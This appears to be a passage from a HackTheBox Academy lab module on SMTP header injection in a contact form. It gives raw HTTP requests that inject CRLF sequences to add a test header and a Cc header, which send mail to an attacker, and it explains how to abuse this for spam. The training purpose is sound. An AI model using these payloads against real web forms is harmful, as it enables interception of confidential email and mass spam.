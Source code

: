 Let's have a look at an example. The web application in the exercise below implements a simple contact form that sends an email to the admin user:

![](https://academy.hackthebox.com/storage/modules/191/crlf/smtpinjection_1.png)

When submitting the data depicted in the screenshot above, the admin receives the following email:

![image](https://academy.hackthebox.com/storage/modules/191/crlf/smtpinjection_2.png)

We can identify that our supplied email address gets reflected in the `From` header. Furthermore, our message is reflected in the email body. Just like in the previous sections, we can attempt to inject a CRLF sequence in our supplied email address and supply an arbitrary header to confirm that we have an SMTP Header Injection vulnerability. We can do so with the following request:

```http
POST /contact.php HTTP/1.1
Host: smtpinjection.htb
Content-Length: 105
Content-Type: application/x-www-form-urlencoded

name=evilhacker&[email protected]%0d%0aTestheader:%20Testvalue&phone=123456789&message=Hello+Admin%21

```

Looking behind the scenes, we can confirm that our proof of concept header was indeed injected into the email:

![image](https://academy.hackthebox.com/storage/modules/191/crlf/smtpinjection_4.png)

Now that we know that the web application is vulnerable to SMTP Header Injection, let's discuss a few options for exploiting this vulnerability.

* * *

## Exploitation

In a real-world deployment of a vulnerable web application, we often do not have access to the resulting email, so we cannot confirm whether our header was successfully injected or not. Our first exploitation attempt could be to add ourselves as a recipient of the email. If we receive the email, we know that we successfully injected an SMTP header. We can do this by targeting one of the following SMTP headers: `To`, `Cc`, or `Bcc`. We can inject our own email address into the header to force the SMTP server to send the email to us:

```http
POST /contact.php HTTP/1.1
Host: smtpinjection.htb
Content-Length: 107
Content-Type: application/x-www-form-urlencoded

name=evilhacker&[email protected]%0d%0aCc:%[email protected]&phone=123456789&message=Hello+Admin%21

```

This should forward the email to our email address at `[email protected]`, including any potentially confidential content. We can also utilize the same methodology to force the SMTP server to send spam emails by supplying a huge list of recipients in any of the three SMTP headers mentioned above and sending the request repeatedly. This would make the SMTP server send a lot of emails to the recipients supplied by us.
